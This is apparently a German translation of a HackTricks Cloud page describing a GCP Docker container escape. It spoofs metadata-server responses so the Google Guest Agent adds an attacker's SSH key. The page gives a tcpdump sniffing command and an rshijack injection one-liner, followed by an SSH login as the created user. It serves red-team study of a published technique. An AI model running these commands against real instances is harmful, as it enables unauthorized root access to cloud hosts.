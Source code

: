 # GCP - Network Docker Escape

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Initial State

In beiden Berichten, in denen diese Technik spezifiziert ist, gelang es den Angreifern, **root**-Zugriff innerhalb eines **Docker**-Containers zu erhalten, der von GCP verwaltet wird, mit Zugriff auf das Host-Netzwerk (und den Berechtigungen **`CAP_NET_ADMIN`** und **`CAP_NET_RAW`**).

## Attack Explanation

Auf einer Google Compute Engine-Instanz zeigt die regelmäßige Überprüfung des Netzwerkverkehrs zahlreiche **unverschlüsselte HTTP-Anfragen** an die **Metadata-Instanz** unter `169.254.169.254`. Der [**Google Guest Agent**](https://github.com/GoogleCloudPlatform/guest-agent), ein Open-Source-Dienst, stellt häufig solche Anfragen.

Dieser Agent ist darauf ausgelegt, **Änderungen in den Metadaten zu überwachen**. Besonders hervorzuheben ist, dass die Metadaten ein **Feld für SSH-Öffentlichkeits-Schlüssel** enthalten. Wenn ein neuer öffentlicher SSH-Schlüssel zu den Metadaten hinzugefügt wird, autorisiert der Agent ihn automatisch in der Datei `.authorized_key`. Er kann auch **einen neuen Benutzer erstellen** und ihn bei Bedarf zu **sudoers** hinzufügen.

Der Agent überwacht Änderungen, indem er eine Anfrage sendet, um **alle Metadatenwerte rekursiv abzurufen** (`GET /computeMetadata/v1/?recursive=true`). Diese Anfrage ist so konzipiert, dass der Metadatenserver nur dann eine Antwort sendet, wenn es seit dem letzten Abruf eine Änderung in den Metadaten gegeben hat, identifiziert durch ein Etag (`wait_for_change=true&last_etag=`). Zusätzlich wird ein **Timeout**-Parameter (`timeout_sec=`) einbezogen. Wenn innerhalb des angegebenen Timeouts keine Änderung erfolgt, antwortet der Server mit den **unveränderten Werten**.

Dieser Prozess ermöglicht es dem **IMDS** (Instance Metadata Service), nach **60 Sekunden** zu antworten, wenn keine Konfigurationsänderung stattgefunden hat, was ein potenzielles **Fenster für das Injizieren einer gefälschten Konfigurationsantwort** an den Gast-Agenten schafft.

Ein Angreifer könnte dies ausnutzen, indem er einen **Man-in-the-Middle (MitM)-Angriff** durchführt, die Antwort des IMDS-Servers fälscht und **einen neuen öffentlichen Schlüssel einfügt**. Dies könnte unbefugten SSH-Zugriff auf das Host-System ermöglichen.

### Escape Technique

Während ARP-Spoofing in Google Compute Engine-Netzwerken ineffektiv ist, kann eine [**modifizierte Version von rshijack**](https://github.com/ezequielpereira/rshijack), die von [**Ezequiel**](https://www.ezequiel.tech/2020/08/dropping-shell-in.html) entwickelt wurde, für die Paket-Injektion in der Kommunikation verwendet werden, um den SSH-Benutzer einzufügen.

Diese Version von rshijack ermöglicht die Eingabe der ACK- und SEQ-Nummern als Befehlszeilenargumente, was das Spoofing einer Antwort vor der echten Antwort des Metadatenservers erleichtert. Zusätzlich wird ein [**kleines Shell-Skript**](https://gist.github.com/ezequielpereira/914c2aae463409e785071213b059f96c#file-fakedata-sh) verwendet, um eine **speziell gestaltete Payload** zurückzugeben. Diese Payload löst den Google Guest Agent aus, um **einen Benutzer `wouter`** mit einem angegebenen öffentlichen Schlüssel in der Datei `.authorized_keys` zu erstellen.

Das Skript verwendet dasselbe ETag, um zu verhindern, dass der Metadatenserver den Google Guest Agent sofort über unterschiedliche Metadatenwerte informiert, wodurch die Antwort verzögert wird.

Um das Spoofing durchzuführen, sind die folgenden Schritte erforderlich:

1. **Überwachen Sie Anfragen an den Metadatenserver** mit **tcpdump**:
```bash
tcpdump -S -i eth0 'host 169.254.169.254 and port 80' &
```
Suchen Sie nach einer Zeile, die ähnlich ist wie:
```
<TIME> IP <LOCAL_IP>.<PORT> > 169.254.169.254.80: Flags [P.], seq <NUM>:<TARGET_ACK>, ack <TARGET_SEQ>, win <NUM>, length <NUM>: HTTP: GET /computeMetadata/v1/?timeout_sec=<SECONDS>&last_etag=<ETAG>&alt=json&recursive=True&wait_for_change=True HTTP/1.1
```
2. Senden Sie die gefälschten Metadaten mit dem richtigen ETAG an rshijack:
```bash
fakeData.sh <ETAG> | rshijack -q eth0 169.254.169.254:80 <LOCAL_IP>:<PORT> <TARGET_SEQ> <TARGET_ACK>; ssh -i id_rsa -o StrictHostKeyChecking=no wouter@localhost
```
Dieser Schritt autorisiert den öffentlichen Schlüssel und ermöglicht die SSH-Verbindung mit dem entsprechenden privaten Schlüssel.

## Referenzen

* [https://www.ezequiel.tech/2020/08/dropping-shell-in.html](https://www.ezequiel.tech/2020/08/dropping-shell-in.html)
* [https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities](https://www.wiz.io/blog/the-cloud-has-an-isolation-problem-postgresql-vulnerabilities)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
